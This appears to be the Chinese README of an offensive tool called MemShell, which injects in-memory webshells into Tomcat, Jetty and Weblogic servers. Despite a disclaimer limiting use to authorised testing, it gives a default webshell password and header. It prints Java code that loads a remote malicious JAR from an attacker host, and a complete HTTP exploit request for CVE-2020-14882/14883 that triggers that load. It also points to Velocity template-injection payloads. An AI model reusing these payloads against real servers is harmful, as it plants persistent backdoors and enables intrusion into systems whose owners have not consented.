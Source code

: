 # MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎默认密码`Crilwa`，添加请求头`D0g3:xxx`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。

   目前支持：

   - Tomcat6789回显，Tomcat6789冰蝎马
   - Jetty回显，Jetty冰蝎马
   - Weblogic冰蝎马

2. JavaAgent注入（需要文件落地，暂时只支持linux，目前没有实现冰蝎payload，只支持Tomcat回显）

### 核心代码

```java
java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});
u.loadClass("Inject.WeblogicInjectFilterShell").newInstance();
u.close();
```

事实上就是通过`URLClassLoader`进行远程类加载，优点是内存马代码编写方便，payload构造简单，缺点是不出网。

通过寻找通用组件的`defineClass`可以解决不出网的问题，比如 BCEL ，但是payload一方面是体积大，一方面是构造较为困难，这里不做深入。

目前支持的注入模块：

![image-20230317112252866](C:\Users\nsfocus\AppData\Roaming\Typora\typora-user-images\image-20230317112252866.png)

### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

![](images/B5RFR1$H]VU@5{(@)]8}30B.png)

![image-20230301151252935](images/image-20230301151252935.png)

### Velocity模板注入

通常使用Velocity模板注入都是进行反弹shell，代码构造比较复杂，不过理论上能够代码执行都可以写内存马，这边我写了Velocity模板注入的相关[payload](https://github.com/cri1wa/MemShell/blob/main/poc/velocity.vm)，可以供给参考。

本地搭建Jetty项目，使用Velocity模板注入注入Jetty内存马

![image-20230317120708186](C:\Users\nsfocus\AppData\Roaming\Typora\typora-user-images\image-20230317120708186.png)

![image-20230317152109671](C:\Users\nsfocus\AppData\Roaming\Typora\typora-user-images\image-20230317152109671.png)

